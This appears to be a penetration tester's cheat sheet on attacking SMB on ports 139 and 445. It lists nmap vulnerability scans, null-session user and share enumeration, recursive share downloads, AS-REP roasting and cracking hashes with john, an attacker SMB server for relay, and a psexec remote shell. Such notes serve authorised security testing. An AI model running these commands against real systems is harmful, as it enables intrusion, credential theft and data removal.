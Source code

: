 ```yaml
---
title: (139/445) SMB
updated: 2023-11-29 02:41:39Z
created: 2023-11-29 02:32:05Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


## SMB

1.  **Enumerate smb:**  
    `nmap --script=smb2-security-mode.nse -p139,445 <target IP>`
    
2.  **Enumerate shares**  
    `nmap -p139,445 --script=smb-enum* <target IP>`
    
3.  **Scan for vulnerablities**  
    `nmap --script-args=unsafe=1 --script=smb-vulns*.nse -p139,445 <target IP>`  
    `nmap --script=smb-proto* -p139,445 <target IP>`  
    `nmap --script=smb-os-discovery.nse -p139,445 <target IP>`
    
    **List mounts:**  
    `showmount --exports <target IP>`
    
4.  **List shares:**  
    `smbclient -L \\\\<target ip>`  
    **Connect to share:**
    
5.  `smbclient //<target ip>/<share>`  
    `smbclient \\\\<target IP>\\IPC$`  
    **Download from share:**
    
6.  `smbget -R smb://<ip>/<share>`
    
7.  Enumerate with **crackmapexec**  
    `crackmapexec smb <target IP> -u '' -p '' --users`  
    `crackmapexec smb <target IP> -u '' -p '' --groups`  
    `crackmapexec smb <target IP> -u '' -p '' --pass-pol`
    
8.  `python3 /opt/impacket/GetNPUsers.py -dc-ip <targetIP> -request 'domain.com/'`  
    If any hashes found, crack then with:  
    `john --format=krb5asrep \ -w=/usr/share/wordlists/rockyou.txt hash.txt`
    
9.  `python3 /opt/impacket/smbserver.py -smb2support myshare .`  
    Check for SMB not enforcing signing , see SMBrelay.
    
10. Connect a shell over SMB using psexec  
    `psexec.py administrator@<targetIP> # password: abc123!`